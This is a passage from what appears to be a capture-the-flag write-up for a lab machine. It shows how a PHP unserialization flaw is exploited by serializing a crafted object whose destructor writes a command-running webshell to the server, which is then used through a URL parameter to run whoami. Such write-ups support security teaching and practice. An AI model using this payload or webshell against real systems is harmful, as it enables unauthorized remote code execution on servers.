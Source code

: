 
![Image](https://github.com/user-attachments/assets/ecabc838-b798-4c2c-8cea-216185d93e92)

![Image](https://github.com/user-attachments/assets/582dcad5-3598-4b7b-a286-b76e9b6a912a)

If the exploit works as expected, the server will **deserialize our injected object**, triggering the `__destruct()` function and writing our payload to a new file on the target machine. We can navigate to `test.php` to see if the exploit worked : 

![Image](https://github.com/user-attachments/assets/a3d4d211-ea50-42c6-ac5a-8c9a87af823e)

And it worked ! 

---
### Initial foothold

Now that we have identified the **unserialization vulnerability**, we can exploit it to gain a foothold on the target machine.

Our plan is to create a **malicious PHP object** that, when deserialized, writes a **webshell** to the server. This will allow us to execute commands remotely.

To do this, we craft the following PHP script :

```php
<?php 
class file {
	public $file = "exploit.php";
	public $data = '<?php system($_GET["c"])?>'; 
}
print(serialize(new file));
?>
```

![Image](https://github.com/user-attachments/assets/307d288d-622d-4170-9cb8-a914cdf5cef9)

Now, we **repeat our previous steps** to inject the serialized payload into the target server.

After making the request to unserialize the payload, our `exploit.php` file should be created on the server.

![Image](https://github.com/user-attachments/assets/74e91bc5-d789-42f4-b27d-f271a6c44224)

![Image](https://github.com/user-attachments/assets/dabeaf05-f91c-49d6-961b-41c67f7692ce)

Once the webshell is in place, we can test it by visiting :

```bash
http://stux.thm/4731502[...]855055/exploit.php?c=whoami
```

If the exploit works, we should see the **current user** of the target machine displayed in the response :
![Image](https://github.com/user-attachments/assets/e1e7be45-ea1c-417c-95dd-e743f44bf99d)
